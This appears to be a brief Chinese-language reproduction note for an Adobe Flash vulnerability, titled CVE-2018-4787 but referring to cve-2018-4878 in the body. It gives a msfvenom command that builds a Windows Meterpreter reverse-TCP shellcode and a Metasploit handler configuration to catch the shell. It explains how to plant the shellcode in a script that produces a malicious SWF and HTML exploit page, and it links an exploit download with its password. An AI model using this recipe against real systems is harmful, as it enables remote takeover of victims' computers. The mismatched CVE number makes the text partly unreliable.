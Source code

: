 `CVE-2018-4787 复现记录`

    漏洞程序:Adobe Flash

    影响版本:
    Adobe Flash 28.0.0.137及其之前的版本

    metasploit Framework个人笔记
    https://zhuanlan.zhihu.com/p/40091321

    Msfvenom生成shellcode
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -a x86 --platform win -f py > shellcode.txt 
    吧shellcode.txt里的shellcode覆盖py脚本里的shellcode
    然后访问
    Metasploit Listen
    use exploit/multi/handler
    set LHOST IP
    set LPORT 4444
    set payload windows/meterpreter/reverse_tcp 
###cve-2018-4878.py为exploit生成脚本，shellcode用metasploit生成，默认的为Windows弹计算器的payload。
###exploit.swf和index.html为cve-2018-4878.py生成的利用页面。
    
    视频与EXP链接：https://pan.baidu.com/s/15_obJtypew2RmqCux5Fdow 密码：1r6f
